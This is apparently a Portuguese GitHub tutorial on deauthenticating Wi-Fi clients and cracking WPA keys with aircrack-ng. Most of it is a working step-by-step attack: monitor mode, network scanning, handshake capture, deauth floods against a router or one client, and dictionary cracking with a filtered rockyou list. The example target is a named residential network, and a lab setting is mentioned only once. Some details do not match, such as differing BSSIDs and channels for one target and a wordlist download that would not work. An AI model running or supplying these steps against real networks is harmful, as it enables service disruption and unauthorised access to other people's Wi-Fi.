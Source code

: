 # Ataque de Deauth ou Dissociação de Redes WI-FI

Redes cabeadas se autenticam com 3 Way Handshake, eqto redes de Wi-fi autenticam com 4 Way Handshake.

🛡️ Como funciona um ataque de desautenticação?

Os atacantes que desejam realizar um ataque de desautenticação geralmente usam dispositivos habilitados para Wi-Fi e software especializado. O processo básico envolve o seguinte:

    - Captura de tráfego Wi-Fi: O atacante inicia a captura de tráfego da rede Wi-Fi alvo usando ferramentas como um sniffer de pacotes.
    - Identificação de dispositivos-alvo: O atacante identifica os dispositivos que desejam desconectar da rede.
    - Envio de pacotes de desautenticação: Usando o endereço MAC dos dispositivos-alvo, o atacante envia pacotes de desautenticação, forçando os dispositivos a se desconectarem da rede.
    - Repetição contínua: O atacante pode repetir esse processo para manter os dispositivos desconectados da rede.

🎯 Objetivos de um ataque de desautenticação de Wi-Fi

Os atacantes realizam ataques de desautenticação de Wi-Fi por várias razões, incluindo:

    - Interrupção da conectividade: Desconectar dispositivos da rede pode causar interrupções significativas nas operações normais, afetando a produtividade e o acesso à Internet.
    - Espionagem: O ataque pode ser usado como uma tática para espionar o tráfego de rede dos dispositivos-alvo enquanto eles tentam se reconectar à rede.
    - Ameaças cibernéticas: Em alguns casos, os ataques de desautenticação podem ser o primeiro passo para invasões mais graves, como ataques de força bruta a senhas.


## Instala a ferramenta de monitoramento:

```bash
sudo apt install aircrack-ng
```

## Valida o nome da sua placa de rede wi-fi:

```bash
ip -c addr
```

## Com a ferramenta AIRMON-NG, validamos possíveis conflitos de hardware antes de iniciar os processos:

```bash
sudo airmon-ng check kill
```

## Coloca a placa de rede wi-fi em modo monitoramento:

```bash
sudo airmon-ng start wlp0s20f3
```

## Valida o novo nome da sua placa de captura de redes wi-fi:

```bash
ip -c addr
```

```bash
sudo airmon-ng
```

## Com a ferramenta AIRODUMP-NG, inicia o scan de todas as redes próximas (aparecerão diversas redes):

```bash
sudo airodump-ng wlp0s20f3mon
```

## Encerra o scan das redes após escolher o alvo:

```bash
ctrl+c
```

## Anote o ESSID (Nome) da rede alvo, bem como o BSSID (MAC) e tbém o CANAL (CH):

```bash
Condominio_Flores_II
```

```bash
64:D1:54:09:EE:3E
```

```bash
4
```

## Podemos validar apenas a rede alvo, se preferir:

```bash
sudo airodump-ng wlp0s20f3mon -d 70:4F:57:70:B6:5A
```

## Posso me conectar á rede wi-fi alvo, se for um laboratório, usando um celular.

## Vai constar o novo cliente, com dados do aparelho, definidos em STATION.

`TERMINAL 01` - VAMOS INICIAR A CAPTURA DOS PACOTES

## Subo o comando de captura de pacotes da rede alvo e salvo o arquivo de captura:

```bash
sudo airodump-ng -w capturados -c 2 --bssid 70:4F:57:70:B6:5A wlp0s20f3mon
```
OU
```bash
sudo airodump-ng -w capturados --channel 2 --essid Condominio_Flores_II wlp0s20f3mon
```

Á partir daqui, eu aguardo algum dispositivo se conectar para realizar a captura do 4 Way Hand Shake.... OU

`TERMINAL 02` - VAMOS INICIAR O ATAQUE DE DESAUTENTICAÇÃO

## Inicia o ataque ao roteador alvo (todos os clientes caem durante o ataque):

```bash
sudo aireplay-ng --deauth 0 -a 64:D1:54:09:EE:3E wlp0s20f3mon
```

Posso tbém, desautenticar apenas um dispositivo específico

```bash
sudo aireplay-ng --deauth 5 -a 64:D1:54:09:EE:3E -c 28:6C:07:6F:F9:53 wlp0s20f3mon
```

## Ao tentar re-conexão, os clientes entregam o handshake de 4 vias no TERMINAL 01:

```bash
[WPA handshake]: 64:D1:54:09:EE:3E
```

## Podemos encerrar a captura no TERMINAL 01

```bash
ctrl+c
```

## Podemos encerrar o ataque no TERMINAL 02

```bash
ctrl+c
```

## Até esse ponto apenas teríamos um ataque de Negação de serviço (DDOS), MAS, nós salvamos um arquivo com informações (capturados.cap) e vamos usá-lo

## Instale o Wireshark e abra o arquivo de captura, filtrando mensagens criptografadas, do tipo EAPOL:

```bash
sudo apt install wireshark
```

```bash
wireshark capturados.cap
```

OU

## Baixe sua wordlist para quebrar a senha capturada usando o aircrack-ng:

```bash
wget https://github.com/zacheller/rockyou.git
```

```bash
wc -l rockyou.txt
```

## Focaremos apenas em senhas que contenham de 8 a 64 caracteres, diminuindo o tempo de conjunções:

```bash
sudo grep -x '.\{8,64\}' rockyou.txt > wparockyou.txt
```

```bash
wc -l wparockyou.txt
```

```bash
aircrack-ng capturados.cap -w /home/usuariox/wordlists/rockyou.txt
```

## O resultado deve ser uma mensagem:

```bash
KEY FOUNF [ P@ssword123 ]
```

## Retira a placa de rede wi-fi do modo monitoramento:

```bash
airmon-ng stop wlp0s20f3mon
```

## Restaura sua placa de rede para navegação:

```bash
systemctl restart NetworkManager
```


## Alternativa de varredura de rede pelo terminal:
```bash
nmcli device wifi list 
```
```bash
N-USE = rede que você está usando
BSSID = endereço do roteador
SSID = nome da rede
MODE = infra (?)
CHAN = canal que está sendo utilizado pelo roteador
RATE = taxa de transferência
SIGNAL = intensidade do sinal em %
BARS = intensidade do sinal em barras
SECURITY = protocolos de segurança do roteador
```


